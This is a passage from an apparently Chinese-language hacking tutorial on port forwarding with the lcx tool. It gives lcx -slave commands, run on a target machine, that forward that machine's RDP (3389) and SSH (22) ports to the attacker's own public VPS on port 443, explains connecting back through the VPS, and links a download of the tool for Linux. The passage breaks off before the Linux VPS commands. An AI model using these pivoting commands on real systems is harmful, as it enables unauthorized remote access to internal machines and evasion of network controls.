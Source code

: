然后在目标机器上执行：

```bash
lcx -slave 公网VPS的IP 在VPS上监听的端口  目标机器的IP 目标机器上指定的端口(常为RDP或SSH)

lcx -slave 103.*.*.* 443 192.168.3.23 3389
//把目标机器的3389端口流量转发到自己VPS的443端口上

lcx -slave 103.*.*.* 443 192.168.3.23 22
//把目标机器的22端口的流量转发到自己VPS的443端口上
```

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/lcx%E8%BD%AC%E5%8F%91.png)

最后回到自己的vps上，看到连接正常建立，就可以使用指定工具连接到目标机器上

## Linux

linux版的就是portmap，可[下载](http://b404.xyz/usources/%E5%B7%A5%E5%85%B7/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx.rar)进行编译，在linux上实现端口转发。

先在vps上执行：
